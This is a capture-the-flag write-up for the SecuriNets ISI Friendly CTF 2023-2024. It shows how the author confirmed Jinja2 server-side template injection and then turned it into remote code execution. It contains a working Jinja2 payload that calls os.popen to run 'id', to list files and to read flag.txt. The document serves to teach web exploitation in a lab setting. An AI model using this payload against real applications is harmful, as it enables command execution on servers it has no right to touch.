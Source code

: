 # SecuriNets ISI Friendly CTF 2023-2024

This Writeup will guide to solve the tasks :

- Server Side Template Injection
- Local file inclusion 0 (LFI0)
- Local file inclusion 1 (LFI1)

## Server Side Template Injection (SSTI) Exploitation

### Confirmation of Jinja2 Usage

The title of this challenge, "Server Side Template Injection," coupled with the description, strongly suggests the use of the Jinja2 template engine in the web application. The mention of a Python web framework aligns with the fact that Jinja2 is commonly employed in Python web development.

### Supporting Argument

1. **Title Significance:** The inclusion of "Template Injection" in the title implies a vulnerability related to the rendering of templates on the server side. Jinja2 is a popular template engine in Python, making it a plausible choice for the web app's backend.

2. **Python Web Framework Hint:** The description hints at the web app being built with a Python framework. Considering Jinja2 is commonly used with frameworks like Flask and Django, it strengthens the case for Jinja2 being the template engine in play.

### Basic Jinja2 Injection Examples

In your research, you've uncovered some basic examples of Jinja2 SSTI, including:

- `{{4*4}}`: Evaluates to 16

#### Exploit Test

1. **Test Payload:** Jinja2 - Basic Injection Test.
   ![Payload](/1.png)
   *Description: {{7*7}}*

2. **Test Result:** The application responds with the output of the '{{7*7}}' command.
   ![Result](/2Capture%20d'écran%202023-11-18%20220633.png)
   *Description: 49*

These examples further reinforce the likelihood of Jinja2 usage and provide a starting point for crafting specific SSTI payloads tailored to this template engine.

### SSTI Exploit for Remote Code Execution (RCE)

After confirming the presence of SSTI in the web application, the next step is to exploit it for Remote Code Execution (RCE). One common payload for achieving RCE in Jinja2 is as follows:

```jinja
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}
```

1. **Test Payload:** Exploit the SSTI by calling os.popen().read().
   ![Payload]!(/3.png)
   *Description: {{ self.**init**.**globals**.**builtins**.**import**('os').popen('id').read() }}*

2. **Test Result:** The application responds with the output of the 'id' command.
   ![Result](/4.png)
   *Description: Confirm that the application responds with the output of the 'id' command, indicating successful SSTI execution.*

3. **Directory Listing**
   - **Payload:** Modify the payload to list the contents of the current directory using `ls`.
     ![Payload]!(/5.png)

   - **Test Result:** Execute the payload and observe the result to see the files and directories in the current location.
     ![Result](/6.png)
4. **Read Flag Contents**
   - **Payload:** Modify the payload to cat the contents of `flag.txt`.

     ```jinja
     {{ self.__init__.__globals__.__builtins__.__import__('os').popen('cat flag.txt').read() }}
     ```
     ![Payload]!(/7.png)

   *Description: {{ self.**init**.**globals**.**builtins**.**import**('os').popen('cat flag.txt').read() }}*

   - **Test Result:** Execute the payload and observe the result to read the contents of the `flag.txt` file : Securinets{55t1_D0N3}.
    ![Result]!(/8.png)
